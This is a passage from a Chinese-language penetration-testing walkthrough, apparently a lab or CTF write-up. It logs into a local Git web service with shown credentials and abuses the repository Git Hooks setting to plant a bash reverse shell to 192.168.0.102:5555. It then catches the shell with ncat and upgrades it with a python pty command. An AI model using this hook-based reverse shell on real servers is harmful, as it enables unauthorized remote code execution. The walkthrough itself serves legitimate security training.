 ```text
URL：http://192.168.0.111:8585/
用户名：frank
密码：123456
```

![image-20210305145203376](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305145203376.png)

![B553250E55D054D729D1CE1413AA08D5](https://gitee.com/Harveysn0w/mac-note_img/raw/master/B553250E55D054D729D1CE1413AA08D5.jpg)

2.寻找地方写shell

找到个人仓库~

![image-20210305145532804](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305145532804.png)

点击setting

![image-20210305145550893](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305145550893.png)

找到Git Hooks

![image-20210305145605512](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305145605512.png)

点击最后一个的小画笔

![image-20210305145747028](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305145747028.png)

写入bash脚本

```text
bash -c 'exec bash -i &>/dev/tcp/192.168.0.102/5555 <&1'
```

![image-20210305145850090](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305145850090.png)

点击update hook进行保存，在终端监听5555端口

```text
ncat -l 5555
```

接下来，在CODE中选择一个文件进行修改并保存

![image-20210305151128601](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305151128601.png)

![image-20210305151145076](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305151145076.png)

Done！获得frank用户的shell

![image-20210305151212492](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305151212492.png)

使用python3升级shell功能

```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
